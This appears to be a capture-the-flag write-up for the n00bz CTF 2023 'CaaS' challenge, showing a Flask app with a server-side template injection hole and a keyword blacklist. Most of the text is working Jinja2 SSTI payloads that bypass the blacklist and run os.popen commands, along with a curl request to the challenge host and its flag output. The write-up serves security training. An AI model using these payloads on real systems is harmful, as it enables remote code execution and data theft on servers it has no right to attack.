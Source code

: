 >Curl as a Service is old, welcome to Certificate as a Service! Note: flag is in `flag.txt` Author: NoobMaster

I was not able to solve this on my own, but thanks to [onsra03](https://github.com/onsra03/WU-n00bz-CTF-2023/blob/main/README.md#caas) for the fantastic writeup post-CTF.

-------------------------------------

### Source code
```python
#!/usr/bin/env python3
from flask import Flask, request, render_template, render_template_string, redirect
import subprocess
import urllib

app = Flask(__name__)

def blacklist(inp):
    blacklist = ['mro','url','join','attr','dict','()','init','import','os','system','lipsum','current_app','globals','subclasses','|','getitem','popen','read','ls','flag.txt','cycler','[]','0','1','2','3','4','5','6','7','8','9','=','+',':','update','config','self','class','%','#']
    for b in blacklist:
        if b in inp:
            return "Blacklisted word!"
    if len(inp) <= 70:
        return inp
    if len(inp) > 70:
        return "Input too long!"

@app.route('/')
def main():
    return redirect('/generate')

@app.route('/generate',methods=['GET','POST'])
def generate_certificate():
    if request.method == 'GET':
        return render_template('generate_certificate.html')
    elif request.method == 'POST':
        name = blacklist(request.values['name'])
        teamname = request.values['team_name']
        return render_template_string(f'<p>Haha! No certificate for {name}</p>')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=52130)
```

Reviewing the source code, we can get an idea on what kind of exploit is involved just by looking at the type of strings blacklisted. These are common python functions, suggesting a python code injection. Exploring where our input is used, we have this line:
```python
render_template_string(f'<p>Haha! No certificate for {name}</p>')
```
A very quick google search suggests this might be SSTI, which is reasonable to believe based on the blacklist. We must utilize SSTI to display the contents of `flag.txt`. Among the commonly used SSTI functions present within the blacklist, we even see `flag.txt` is among them. 

### Bypassing blacklist
It is clear that this blacklist must be bypassed. One possible approach is to use quotations to break string sequences. Onsra03 proposes `{{namespace['__ini''t__']['__global''s__']['o''s']['pop''en']('l\s')['rea''d'](+)}}`. However, with this we quickly approach the 70 char limit.

From the source code it is worth pointing out that only the parameter `name` is checked for blacklisted characters. If we can supply blacklisted characters in `team_name`-- or perhaps an unused parameter--then call `team_name` again within `name`, we should be able to pass the blacklisted characters to execute.

### Building payload

Using global variable `g`, we can generate a much smaller payload from `namespace[__ini''t__]`. Secondly, we can utilize `request.form` to reference a different supplied parameter containing banned strings. At this point, our payload is small enough that referencing `team_name` is still within the length requirements. However, we could make the name parameter even smaller by referencing some single letter parameter such as `a`:
```
name={{g.pop['__global''s__'].__builtins__.eval(request.form.team_name)}}&team_name=__import__('os').popen('cat flag.txt').read()
```
Supplying this as the post request body:
```bash
curl -X POST http://challs.n00bzunit3d.xyz:52130/generate -d "name={{g.pop['__global''s__'].__builtins__.eval(request.form.team_name)}}&team_name=__import__('os').popen('cat flag.txt').read()"
<p>Haha! No certificate for n00bz{5571_57r1k3s_4g41n_7a1b3f4e5d}</p>
```
#### Alternative payload
Another interesting approach does not use `g.pop` but instead utilizes Flask's `get_flashed_messages` function:
```
name={{get_flashed_messages['__built''ins__'].eval(request.values['a'])}}&a=__import__('os').popen('cat flag.txt').read()&team_name=b
```
Note that in this situation referencing `team_name` in request.values will exceed the input length limit, so we utilize a single letter parameter  `a` instead. The values for `team_name` doesn't matter anymore, so it's just set to b.
